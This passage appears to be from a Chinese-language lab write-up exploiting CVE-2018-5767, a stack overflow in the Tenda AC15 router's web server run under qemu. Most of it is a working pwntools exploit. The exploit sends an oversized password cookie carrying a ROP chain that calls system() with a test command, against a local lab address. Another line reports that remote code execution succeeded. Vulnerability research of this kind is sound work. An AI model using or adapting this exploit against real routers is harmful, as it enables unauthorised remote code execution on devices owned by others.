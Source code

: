 ```python
ret = requests.get(url=url,cookies=cookie)
print(ret.text)
```

在qemu运行界面可以看到, 说明rce成功

![%E6%A0%88%E6%BA%A2%E5%87%BAcve-2018-5767(AC15)%208fcdfaea1f774715b9f58e593e897ffb/Untitled%2018.png](%E6%A0%88%E6%BA%A2%E5%87%BAcve-2018-5767(AC15)%208fcdfaea1f774715b9f58e593e897ffb/Untitled%2018.png)

以及一个调用system的exp

```python
import requests
from pwn import *
context.binary = "squashfs-root/bin/httpd"
# context. log_level = "debug"

libc = ELF( "squashfs-root/lib/libc.so.0")
system_offset = libc.symbols["system"]
libc_base_addr = 0xf65e5000
pop_r3_pc = libc_base_addr + 0x00018298
mov_r0_sp_blx_r3 = libc_base_addr +0x00040cb8
system_addr = libc_base_addr +system_offset

ip  = "192.168.129.131"
url = "http://%s/goform/execCommand"%ip
cookie ={"Cookir":"password="+cyclic(444)+".gif"+flat(pop_r3_pc,system_addr,mov_r0_sp_blx_r3)+ "touch aaaa"}

ret = requests.get(url=url ,cookies=cookie)
print(ret.text)
```
